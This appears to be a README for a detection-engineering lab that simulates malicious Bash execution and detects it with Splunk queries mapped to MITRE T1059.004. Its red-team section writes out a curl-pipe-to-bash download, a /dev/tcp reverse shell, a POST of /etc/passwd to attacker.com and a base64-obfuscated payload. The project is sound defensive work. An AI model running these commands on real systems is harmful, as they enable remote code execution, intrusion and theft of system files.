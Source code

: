# 🧠 Detection Engineering – Command & Script Execution (MITRE T1059.004)

This project simulates malicious Linux command execution patterns (e.g., piped shell commands, reverse shells, obfuscated base64 payloads) and detects them using log analysis via Splunk.

## 🎯 MITRE ATT&CK Mapping
- **Tactic:** Execution
- **Technique:** T1059.004 – Command and Scripting Interpreter: Bash

## 🧪 Red Team Simulation

Simulated commands executed via Kali on the target Ubuntu VM:

curl http://malicious.com/script.sh | bash
bash -i >& /dev/tcp/192.168.56.1/4444 0>&1
cat /etc/passwd && curl -X POST -d @/etc/passwd http://attacker.com/loot
echo "Y2F0IC9ldGMvcGFzc3dk" | base64 -d | bash
These simulate:

Chained command execution

Reverse shells via bash

Obfuscated payload execution

## 🔎 Blue Team Detection

✔️ Splunk Queries Used

index=* (bash OR bash_history OR auth.log)
("curl" AND "bash") OR ("|" AND "bash") OR ("&&") OR ("base64" AND "bash")

index=* (bash OR syslog OR bash_history)
("/dev/tcp/" OR ">&" OR "0>&1")

index=* source="/home/*/.bash_history"
| table _time, host, user, message
| search message="*curl*" OR message="*bash*" OR message="*|*" OR message="*base64*"

## 📝 Detection Outcome
Suspicious reverse shell syntax detected via /dev/tcp patterns

curl | bash and base64 | bash patterns flagged as high-risk

Chained shell commands (&&) observed in .bash_history

## 🛡️ Logs Used
.bash_history

/var/log/auth.log

/var/log/syslog

## 📸 Screenshots
Kali attack simulation

Bash history entries

Splunk detection results

